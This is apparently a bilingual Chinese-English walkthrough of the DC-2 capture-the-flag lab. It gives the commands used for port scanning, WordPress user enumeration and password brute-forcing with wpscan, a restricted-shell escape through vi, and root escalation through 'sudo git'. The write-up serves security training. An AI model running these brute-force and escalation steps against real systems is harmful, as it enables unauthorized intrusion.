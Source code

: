 ```yaml
---

# ✅ DC-2 渗透笔记增强版

---
```


## 🧭 信息收集 | Information Gathering

### 🔹 使用 nmap 扫描端口和服务  
Use nmap to scan all ports and identify running services:

```apl
nmap -sS -sV -p- -T4 -Pn <target_ip>
```

扫描发现目标运行 WordPress CMS，确认有 7744 端口开放。
 Scan found the target running WordPress CMS and port 7744 is open.

------

### 🔹 使用 cewl 生成密码字典

Generate password list from the target website using cewl:

```apl
cewl http://dc-2 -w /root/Desktop/pass.txt
```

访问网页发现 flag，确定 CMS 是 WordPress。
 Discovered a flag on the web page and identified the CMS as WordPress.

------

### 🔹 使用 wpscan 枚举用户名

Use wpscan to enumerate WordPress users:

```apl
wpscan --url http://dc-2 -e u
```

扫出用户名 `admin`、`jerry`、`tom`，保存到 `/root/Desktop/user.txt`。
 Enumerated users admin, jerry, and tom; saved to `/root/Desktop/user.txt`.

------

### 🔹 使用 wpscan 爆破登录

Use wpscan to brute-force login with username and password lists:

```apl
wpscan --url http://dc-2 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt
```

成功爆破出两组账号密码。
 Successfully cracked two username-password pairs.

------

### 🔍 使用 dirsearch 扫描目录

Scan for directories to find the login page:

```apl
dirsearch -u http://dc-2
```

找到登录页面后，用 `jerry` 登录，查看 flag 和 flag2。
 Found login page and logged in with jerry user to view flags.

------

## 🎯 漏洞利用 | Exploitation

### 🔹 使用 SSH 登录

Login via SSH using爆破得到的用户：

```apl
ssh tom@<target_ip> -p 7744
```

输入密码成功登录。
 Logged in successfully with password.

------

### 🧱 获得稳定 Shell

默认 shell 受限，需要提权获得完整 shell：

```apl
vi rk
# 在编辑器中输入：
:set shell=/bin/sh
:shell
```

然后设置环境变量：

```apl
export PATH=$PATH:/bin
export PATH=$PATH:/usr/bin
```

提升交互稳定性，获得完整 shell。
 Escaped restricted shell by changing shell in vim and updating PATH.

------

### 🔄 切换用户查找文件

切换到 `jerry` 用户，进入其目录发现 `flag4.txt`：

```apl
su jerry
```

输入密码切换成功。
 Switched to jerry user and found flag4.txt.

------

### 🔍 查看 sudo 权限

查看 sudo 权限：

```apl
sudo -l
```

发现 `/usr/bin/git` 可无密码执行。
 Found sudo NOPASSWD permission for /usr/bin/git.

------

### 🚀 利用 sudo git 提权

使用 git 帮助命令提权：

```apl
sudo git help config
!/bin/bash
```

成功获得 root 权限。
 Successfully escalated privileges to root.

------

## 🏁 总结 | Summary

- 使用 nmap 端口和服务扫描定位目标服务
- 利用 cewl 和 wpscan 收集爆破 WordPress 用户和密码
- 通过 dirsearch 定位登录页面
- 使用 SSH 登录，利用 vim 逃逸受限 shell
- 发现 sudo 权限漏洞，使用 git 提权

> 一条典型的 WordPress 爆破登录与 sudo 权限提权完整链条，适合实战演练。
